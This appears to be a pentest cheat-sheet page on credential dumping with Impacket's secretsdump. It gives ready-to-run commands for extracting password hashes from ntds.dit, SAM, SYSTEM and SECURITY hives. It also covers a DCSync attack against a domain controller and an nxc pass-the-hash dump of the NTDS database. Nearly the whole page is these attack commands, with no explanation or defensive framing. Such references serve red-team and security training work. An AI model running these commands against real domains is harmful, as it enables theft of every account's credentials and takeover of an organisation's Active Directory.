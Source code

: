 ```yaml
---
title: "secretsdump"
date: 2024-7-2
tags: ["Sam", "Dcsync", "Impacket", "Domain Controller", "Credential Dumping", "Active Directory", "Windows", "Ntds.Dit", "Hive", "Nxc"]
---
```


### Convert ntds.dit to .sqlite

```console
ntdsdotsqlite ntds.dit --system SYSTEM -o ntds.sqlite
```

<small>*Ref: [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite)*</small>

### With ntds.dit and SYSTEM hive

{{< tab set1 tab1 active >}}impacket{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

{{< /tabcontent >}}

### With SAM, SYSTEM and SECURITY Hives

{{< tab set2 tab1 active >}}impacket{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

{{< /tabcontent >}}

### With Dcsync right

{{< tab set3 tab1 active >}}impacket{{< /tab >}}
{{< tab set3 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
nxc smb -dc-ip <DC> -u <USER> -H <HASH> --ntds
```

{{< /tabcontent >}}
